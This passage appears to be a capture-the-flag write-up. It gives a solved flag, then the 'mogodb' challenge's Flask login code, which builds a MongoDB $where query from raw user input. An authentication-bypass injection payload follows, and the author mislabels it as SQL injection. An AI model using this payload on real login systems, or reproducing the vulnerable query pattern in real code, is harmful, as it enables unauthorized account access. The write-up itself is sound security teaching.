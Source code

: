 Here is the decrypted key :

 `Introduce A Little Anarchy, Upset The Established Order, And Everything Becomes Chaos!!`

Using this key , we can able to login and redirected to admin_panel.html

`Flag : flag{Admin , Introduce A Little Anarchy, Upset The Established Order, And Everything Becomes Chaos!!}`

## Chall 3 → **mogodb**

link - [http://mogodb.hsctf.com/](http://mogodb.hsctf.com/)

**Description :**

The web-scale DB of the future!

**Solution:**

They gave the source code for the challenge , on inspecting [main.py](http://main.py) it has some routes to login and register .

```python
@app.route("/", methods=["POST"])
def login():
	if "user" not in request.form:
		return redirect(url_for("main", error="user not provided"))
	if "password" not in request.form:
		return redirect(url_for("main", error="password not provided"))
	
	try:
		user = db.users.find_one(
			{
			"$where":
				f"this.user === '{request.form['user']}' && this.password === '{request.form['password']}'"
			}
		)
	except pymongo.errors.PyMongoError:
		traceback.print_exc()
		return redirect(url_for("main", error="database error"))
	
	if user is None:
		return redirect(url_for("main", error="invalid credentials"))
	
	session["user"] = user["user"]
	session["admin"] = user["admin"]
	return redirect(url_for("home"))
```

We can see here , the user input directly appends into the query inside single quotes.
SQLi !!!

Here is the payload to bypass the authentication .

`user=admin&password='+||+'1'=='1`
